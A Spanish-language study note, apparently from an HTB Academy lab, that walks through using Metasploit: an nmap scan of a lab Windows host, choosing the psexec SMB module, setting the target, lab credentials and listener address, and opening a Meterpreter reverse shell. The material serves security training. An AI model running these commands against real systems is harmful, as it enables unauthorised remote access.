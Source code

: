 [Metasploit](https://www.metasploit.com) es un marco de ataque automatizado desarrollado por `Rapid7`que agiliza el proceso de explotación de vulnerabilidades mediante el uso de módulos prediseñados que contienen opciones fáciles de usar para explotar vulnerabilidades y entregar cargas útiles para obtener un shell en un sistema vulnerable.

#### Iniciando MSF
```js
sudo msfconsole 
```

En este caso, usaremos resultados de enumeración de un `nmap` escanee para elegir un módulo Metasploit para usar.
```ruby
┌──(pelado㉿kali)-[~/HTB/Academy/ShellsPayloads]
└─$ nmap -sCV -Pn 10.129.201.160 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-21 13:57 EDT
Stats: 0:02:17 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 14:00 (0:00:13 remaining)
Nmap scan report for 10.129.201.160
Host is up (0.16s latency).
Not shown: 898 closed tcp ports (conn-refused), 93 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
7/tcp    open  echo
9/tcp    open  discard?
13/tcp   open  daytime      Microsoft Windows USA daytime
19/tcp   open  chargen
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 10 Pro 18363 microsoft-ds (workgroup: WORKGROUP)
2179/tcp open  vmrdp?
Service Info: Host: SHELLS-WIN10; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 18363 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Shells-Win10
|   NetBIOS computer name: SHELLS-WIN10\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-06-21T11:01:13-07:00
| smb2-time: 
|   date: 2024-06-21T18:01:10
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 2h20m02s, deviation: 4h02m32s, median: 0s

```

#### Buscando dentro de Metasploit
```js
msf6 > search smb

Matching Modules
================

   #    Name                                                                            Disclosure Date  Rank       Check  Description
   -    ----                                                                            ---------------  ----       -----  -----------
   0    exploit/multi/http/struts_code_exec_classloader                                 2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   1      \_ target: Java                                                               .                .          .      .
   2      \_ target: Linux                                                              .                .          .      .
   3      \_ target: Windows                                                            .                .          .      .
   4      \_ target: Windows / Tomcat 6 & 7 and GlassFish 4 (Remote SMB Resource)       .                .          .      .
   5    exploit/osx/browser/safari_file_policy                                          2011-10-12       normal     No     Apple Safari file:// Arbitrary Code Execution
   6      \_ target: Safari 5.1 on OS X                                                 .                .          .      .
   7      \_ target: Safari 5.1 on OS X with Java                                       .                .          .      .
   8    auxiliary/server/capture/smb                                                    .                normal     No     Authentication Capture: SMB
   9    post/linux/busybox/smb_share_root                                               .                normal     No     BusyBox SMB Sharing
   10   exploit/linux/misc/cisco_rv340_sslvpn                                           2022-02-02       good       Yes    Cisco RV340 SSL VPN Unauthenticated Remote Code Execution
   11   auxiliary/scanner/http/citrix_dir_traversal                                     2019-12-17       normal     No     Citrix ADC (NetScaler) Directory Traversal Scanner
   12   auxiliary/gather/crushftp_fileread_cve_2024_4040                                .                normal     Yes    CrushFTP Unauthenticated Arbitrary File Read
   13   auxiliary/scanner/smb/impacket/dcomexec                                         2018-03-19       normal     No     DCOM Exec
   14   auxiliary/scanner/smb/impacket/secretsdump                                      .                normal     No     DCOM Exec
   15   auxiliary/scanner/dcerpc/dfscoerce                                              .                normal     No     DFSCoerce
   16   exploit/windows/scada/ge_proficy_cimplicity_gefebt                              2014-01-23       excellent  Yes    GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   17   exploit/windows/smb/generic_smb_dll_injection                                   2015-03-04       manual     No     Generic DLL Injection From Shared Resource
   18     \_ target: Windows x86                                                        .                .          .      .
   19     \_ target: Windows x64                                                        .                .          .      .
   20   exploit/windows/http/generic_http_dll_injection                                 2015-03-04       manual     No     Generic Web Application DLL Injection
   21     \_ target: Windows x86                                                        .                .          .      .
   22     \_ target: Windows x64                                                        .                .          .      .
   23   exploit/windows/smb/group_policy_startup                                        2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   24     \_ target: Windows x86                                                        .                .          .      .
   25     \_ target: Windows x64                                                        .                .          .      .
   ....................
```

Cada módulo tiene un número que aparece en el extremo izquierdo de la tabla para facilitar la selección del módulo, un `Name`, `Disclosure Date`, `Rank`, `Check` y `Description`.
Veamos un módulo en particular para entenderlo en el contexto de las cargas útiles:

| Output     | Significado                                                                                                                                                                                |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `56`       | El número asignado al módulo en la tabla dentro del contexto de la búsqueda. Este número facilita la selección. Podemos usar el comando `use 56` para seleccionar el módulo.               |
| `exploit/` | Esto define el tipo de módulo. En este caso, se trata de un módulo de explotación. Muchos módulos de explotación en MSF incluyen la carga útil que intenta establecer una sesión de shell. |
| `windows/` | Esto define la plataforma a la que nos dirigimos. En este caso, sabemos que el objetivo es Windows, por lo que el exploit y la carga útil serán para Windows.                              |
| `smb/`     | Esto define el servicio para el cual se escribe la carga útil en el módulo.                                                                                                                |
| `psexec`   | Esto define la herramienta que se cargará en el sistema de destino si es vulnerable.                                                                                                       |
```ruby
msf6 > search exploit/windows/smb/psexec

Matching Modules
================

   #  Name                        Disclosure Date  Rank    Check  Description
   -  ----                        ---------------  ----    -----  -----------
   0  exploit/windows/smb/psexec  1999-01-01       manual  No     Microsoft Windows Authenticated User Code Execution
   1    \_ target: Automatic      .                .       .      .
   2    \_ target: PowerShell     .                .       .      .
   3    \_ target: Native upload  .                .       .      .
   4    \_ target: MOF upload     .                .       .      .
   5    \_ target: Command        .                .       .      .


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/psexec
After interacting with a module you can manually set a TARGET with set TARGET 'Command'

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > 
```

#### Examinar las opciones de un exploit
```ruby
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.50.4.192     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

#### Opciones de configuración
```js
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.201.160
RHOSTS => 10.129.201.160
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.15.13
LHOST => 10.10.15.13
msf6 exploit(windows/smb/psexec) > 
```

Estas configuraciones garantizarán que nuestra carga útil se entregue al objetivo adecuado ( `RHOSTS`), cargado en el recurso compartido administrativo predeterminado ( `ADMIN$`) utilizando credenciales ( `SMBPass` & `SMBUser`), luego inicie una conexión de shell inversa con nuestra máquina host local ( `LHOST`).

#### Explotacion
```ruby
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.15.13:4444 
[*] 10.129.201.160:445 - Connecting to the server...
[*] 10.129.201.160:445 - Authenticating to 10.129.201.160:445 as user 'htb-student'...
[*] 10.129.201.160:445 - Selecting PowerShell target
[*] 10.129.201.160:445 - Executing the payload...
[+] 10.129.201.160:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176198 bytes) to 10.129.201.160
[*] Meterpreter session 1 opened (10.10.15.13:4444 -> 10.129.201.160:49874) at 2024-06-21 14:12:14 -0400

meterpreter > 
```

#### Carcasa interactiva
```ruby
meterpreter > shell
Process 604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```


